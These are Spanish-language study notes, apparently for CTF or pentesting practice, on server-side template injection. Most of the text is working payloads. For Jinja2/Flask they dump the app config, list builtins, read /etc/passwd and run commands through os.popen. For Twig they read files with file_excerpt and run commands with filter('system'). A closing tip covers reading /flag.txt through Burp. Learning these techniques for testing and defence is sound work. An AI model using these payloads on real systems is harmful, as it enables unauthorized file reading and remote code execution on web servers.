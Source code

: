 
Server-Side template injection -> Cunado un template engine como jinja acepta input antes de que la función de renderizado se active, permitiendo que el atacante inyecte codigo y que este sea renderizado
## Identifying SSTI

1. Meterle carácteres usados comunmente en los template para ver si salta error : ```${{<%[%'"}}%\.``` -> carácteres mas comunes

2. Identificar el Template Engine

![[Pasted image 20250701235617.png]]

3. Salir de casa

## Explotation - Jinja2

Usado en python web frameworks como `Flask` o `Django` - nos centraremos en Flask

1. Payload para ver la configuración de la aplicación web
```jinja2
{{ config.items() }}
```
2. Payload que dumpea todas las finciones built-in 
```jinja2
{{ self.__init__.__globals__.__builtins__ }}
```
3. Si la funciones open está activa podemos hacer LFI de la siguiente forma
```jinja2
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```
4. RCE,  necesitamos la librería 'os' , si no está instalada tendremos que hacerle import desde el payload 
```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

## Explotation - Twig

Basado en PHP

1. Payload para que nos de info sobre el template
```twig
{{ _self }}
```
2. LFI (si usa Symfony)
```twig
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```
3. RCE
```twig
{{['id']|filter('system')}}
```

si quieres hacer cat /flag.txt con burp el espacio ponlo como `\x20`
